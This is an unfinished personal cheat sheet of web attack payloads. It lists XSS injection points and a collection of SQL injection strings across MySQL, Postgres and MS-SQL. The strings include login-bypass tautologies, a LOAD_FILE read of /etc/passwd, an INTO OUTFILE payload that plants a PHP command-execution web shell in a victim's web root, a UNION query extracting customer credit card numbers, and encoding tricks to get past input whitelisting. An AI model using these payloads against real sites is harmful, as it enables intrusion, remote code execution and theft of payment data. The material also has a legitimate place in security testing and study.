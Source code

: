 # XSS

Places on a page where you can put JS:

```html
<script>
    alert('xss');
</script>

<img src="#" onerror="alert('xss')" />

<input type="button" onclick="alert('xss')" />

<iframe src="javascript:alert('xss');"></iframe>
```

# SQLi

- ANSI SQL Standard
    - Uses double quotes for table and column names. single quotes for string
      values
- MySQL
    - Uses backticks for table and column names. Single or double quotes for
      string values
    - Can be forced to use ANSI standard via `SET GLOBAL SQL_MODE=ANSI_QUOTES`
- Postgres
    - Uses double quotes for table and column names. single quotes for string
      values (follows ANSI standard)
- MS-SQL
    - ???
    - Also allows square brackets for identifier quoting
    - Can be forced to use ANSI standard via `SET QUOTED_IDENTIFIER ON`

Characters with special meanings to SQL

- '
    - the usual boundary between code and data in a SQL query
-   -
- |
- ||
- ,
- space
- .

Good SQLi strings:

```
# if you think the column is a string
" OR "1"="1
' OR '1'='1

# if the column is a string which can only be alphabetic
" OR "a"="a
' OR 'a'='a

# if the column is numeric
1 or 1=1


# mysql specific
1 UNION ALL SELECT LOAD_FILE('/etc/passwd')--

# mysql and php specific
1 UNION SELECT "<? system($_REQUEST[‘cmd’]); ?>" INTO OUTFILE "/var/www/html/victim.com/cmd.php" --
```

Rough notes

```
# looks like an email (note no spaces required around OR)
x@'OR'1'='1


input.codepoints.map {|x|  '\u' + format('%04X', x) }.join


Mary Martin' UNION SELECT creditcardnumber FROM customers WHERE customername = 'Mary Martin
```

- remember your `OR X=Y` that the type of X and Y literals need to be valid for
  the column type being checked
- use GROUP BY to guess the column name e.g. `' group by name having '1'='1`
    - if the column doesn't exist you will get an error about it not existing

Encodings that DBs will honor which can be used to avoid param whitelisting

- URI (percent) encoding
    - `URI.escape(input)`
    - used in preparation of `application/x-www-form-urlencoded` data
- URI (percent) encoding but encoding characters which are not required to be
  encoded by the spec
    - `URI.escape(input, "'?") # 2nd arg is chars to replace with percent encoded versions`

TODO finish this
